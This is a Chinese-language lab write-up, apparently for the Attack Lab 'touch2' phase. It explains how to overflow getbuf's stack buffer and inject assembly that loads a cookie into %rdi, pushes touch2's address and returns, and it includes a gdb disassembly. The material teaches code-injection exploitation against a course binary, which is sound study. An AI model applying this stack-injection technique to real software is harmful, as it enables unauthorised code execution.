 第二个稍微复杂一些，需要注入一段可执行代码,使得调用touch2函数,并且传递一个参数进去.
大致的思路是:

- 插入一段可执行代码
- 使函数本身ret到插入的可执行代码地址
- 可执行代码中再次ret到touch2


我们分析一下得知,我们注入代码的方式是往定义在getbuf函数中的local var读入字符串,因此可执行代码的地址一定在栈上的某个位置.

让getbuf返回时跳到这段可执行代码比较容易,思路和level1一样. 可是跳到这段 injected code 后,如何再跳到touch2函数呢?

回忆ret指令,是pop得到一个地址,作为PC的地址

因此自然想到我们应该先把touch2的地址压栈,也就是 
```GAS
push $0x4017ec

不要使用 mov $0x4017ec $rsp 

```


```GAS

(gdb) disas touch2
Dump of assembler code for function touch2:
   0x00000000004017ec <+0>:     sub    $0x8,%rsp
   0x00000000004017f0 <+4>:     mov    %edi,%edx
   0x00000000004017f2 <+6>:     movl   $0x2,0x202ce0(%rip)        # 0x6044dc <vlevel>
   0x00000000004017fc <+16>:    cmp    0x202ce2(%rip),%edi        # 0x6044e4 <cookie>
   0x0000000000401802 <+22>:    jne    0x401824 <touch2+56>
   0x0000000000401804 <+24>:    mov    $0x4030e8,%esi
   0x0000000000401809 <+29>:    mov    $0x1,%edi
   0x000000000040180e <+34>:    mov    $0x0,%eax
   0x0000000000401813 <+39>:    callq  0x400df0 <__printf_chk@plt>
   0x0000000000401818 <+44>:    mov    $0x2,%edi
   0x000000000040181d <+49>:    callq  0x401c8d <validate>
   0x0000000000401822 <+54>:    jmp    0x401842 <touch2+86>
   0x0000000000401824 <+56>:    mov    $0x403110,%esi
   0x0000000000401829 <+61>:    mov    $0x1,%edi
   0x000000000040182e <+66>:    mov    $0x0,%eax
   0x0000000000401833 <+71>:    callq  0x400df0 <__printf_chk@plt>
   0x0000000000401838 <+76>:    mov    $0x2,%edi
   0x000000000040183d <+81>:    callq  0x401d4f <fail>
   0x0000000000401842 <+86>:    mov    $0x0,%edi
   0x0000000000401847 <+91>:    callq  0x400e40 <exit@plt>
End of assembler dump.

```

此外需要注意,第一个参数是存在%rdi而不是%edi中.

因此,这段注入代码需要做的事情为:

```GAS

mov $0x59b997fa,%rdi
push $0x4017ec
ret

```
